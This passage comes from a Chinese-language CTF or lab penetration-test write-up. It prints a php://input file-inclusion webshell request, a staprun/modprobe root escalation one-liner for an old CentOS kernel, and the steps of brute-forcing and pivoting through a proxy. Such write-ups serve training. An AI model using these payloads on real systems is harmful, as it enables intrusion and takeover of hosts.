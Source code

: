 ```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-27 08:33 CST
Nmap scan report for 192.168.5.10
Host is up (0.00097s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 4.3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.2.3 ((CentOS))
111/tcp  open  rpcbind 2 (RPC #100000)
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

看到开了22,80,111,3306四个端口。这里，我直接后台开了hrydra尝试爆破了下22和3306，可惜没拿到好的结果。

然后，突然发现AWVS扫描器给了一个高危漏洞提醒，发现这个站前台竟然直接存在文件包含漏洞。于是尝试`php://input`直接写webshell，拿下第一个web站。

```bash
http://shop.theyer.com/index.php?page=php://input
<?php phpinfo();?>
```

PS: 这其实是和预期解有差别，主要原因是一开始我没怎么看前端逻辑，外加AWVS异常给力，直接给了个高危，所以很暴力，直接获得了webshell。传统解法应该是先通过第一个www站（上面文件包含是shop站，）下载到一个apk，然后逆向得到第二个站shop的url，接着通过shop站获得权限。

用蚁剑控制我们的第一台肉鸡，能拿到第一个flag。

![1](https://mo-xiaoxi.github.io/img/post/429/1.png)

要拿第二个flag则需要提权。

```bash
[centos@localhost upload]$ uname -r
2.6.18-194.el5
```

linux版本很老，直接搜就搜kernel 2.6.18 提权就能得到很多payload。

```bash
#!/bin/bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u root

```

现场使用了如上进行提权，提权到root，获得第二个flag。

#### 纵向渗透

纵向渗透首先要在第一台跳板机上架设代理。我们这里主要用shadowsocks在第一个跳板机上面架设了一个sock5代理，后续走该代理进行攻击。

不过，由于我当时环境有点问题，我另外临时架设了一个HTTP代理，进行一些简单的扫描。[mproxy](https://github.com/examplecode/mproxy)

通过ifconfig，可以知道第一台Centos服务器还有一个网卡，是6段的ip。

 ```bash
? (192.168.6.1) at 00:50:56:A6:FB:37 [ether] on eth1
? (192.168.6.15) at 00:50:56:A6:1D:B4 [ether] on eth1
? (192.168.6.16) at 00:50:56:A6:58:78 [ether] on eth1
? (192.168.6.17) at 00:50:56:A6:BD:AF [ether] on eth1
? (192.168.6.200) at 00:50:56:A6:53:3D [ether] on eth1

 ```

